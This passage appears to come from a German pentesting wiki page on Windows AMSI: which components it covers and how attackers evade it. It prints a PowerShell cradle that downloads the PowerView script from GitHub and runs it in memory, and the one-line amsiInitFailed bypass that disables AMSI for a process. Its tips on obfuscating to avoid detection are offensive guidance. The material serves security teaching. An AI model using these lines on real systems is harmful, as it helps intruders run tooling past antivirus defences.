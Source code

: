 Die AMSI-Funktion ist in diese Komponenten von Windows integriert.

* Benutzerkontensteuerung oder UAC (Erhöhung von EXE, COM, MSI oder ActiveX-Installation)
* PowerShell (Skripte, interaktive Nutzung und dynamische Codeauswertung)
* Windows Script Host (wscript.exe und cscript.exe)
* JavaScript und VBScript
* Office VBA-Makros

Es ermöglicht Antivirenlösungen, das Verhalten von Skripten zu inspizieren, indem der Skriptinhalt in einer Form offengelegt wird, die sowohl unverschlüsselt als auch nicht obfuskiert ist.

Die Ausführung von `IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1')` wird den folgenden Alarm auf Windows Defender erzeugen.

<figure><img src="../.gitbook/assets/image (1135).png" alt=""><figcaption></figcaption></figure>

Beachte, wie es `amsi:` voranstellt und dann den Pfad zur ausführbaren Datei angibt, von der das Skript ausgeführt wurde, in diesem Fall powershell.exe.

Wir haben keine Datei auf die Festplatte geschrieben, wurden aber trotzdem im Speicher aufgrund von AMSI erwischt.

Es gibt ein paar Möglichkeiten, um AMSI zu umgehen:

* **Obfuskation**

Da AMSI hauptsächlich mit statischen Erkennungen arbeitet, kann das Modifizieren der Skripte, die du zu laden versuchst, eine gute Möglichkeit sein, um Erkennung zu umgehen.

Allerdings hat AMSI die Fähigkeit, Skripte zu deobfuskieren, selbst wenn sie mehrere Schichten haben, sodass Obfuskation je nach Ausführung eine schlechte Option sein könnte. Das macht es nicht so einfach, zu entkommen. Obwohl manchmal alles, was du tun musst, ist, ein paar Variablennamen zu ändern, und du bist auf der sicheren Seite, also hängt es davon ab, wie stark etwas markiert wurde.

* **AMSI Bypass**

Da AMSI implementiert ist, indem eine DLL in den PowerShell (auch cscript.exe, wscript.exe usw.) Prozess geladen wird, ist es möglich, damit leicht zu manipulieren, selbst wenn man als unprivilegierter Benutzer läuft. Aufgrund dieses Fehlers in der Implementierung von AMSI haben Forscher mehrere Möglichkeiten gefunden, um das AMSI-Scanning zu umgehen.

**Einen Fehler erzwingen**

Das Erzwingen des Fehlers bei der AMSI-Initialisierung (amsiInitFailed) führt dazu, dass kein Scan für den aktuellen Prozess initiiert wird. Ursprünglich wurde dies von [Matt Graeber](https://twitter.com/mattifestation) offengelegt und Microsoft hat eine Signatur entwickelt, um eine breitere Nutzung zu verhindern.

{% code overflow="wrap" %}
```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```
{% endcode %}

Alles, was nötig war, war eine Zeile PowerShell-Code, um AMSI für den aktuellen PowerShell-Prozess unbrauchbar zu machen. Diese Zeile wurde natürlich von AMSI selbst markiert, daher sind einige Modifikationen erforderlich, um diese Technik zu verwenden.
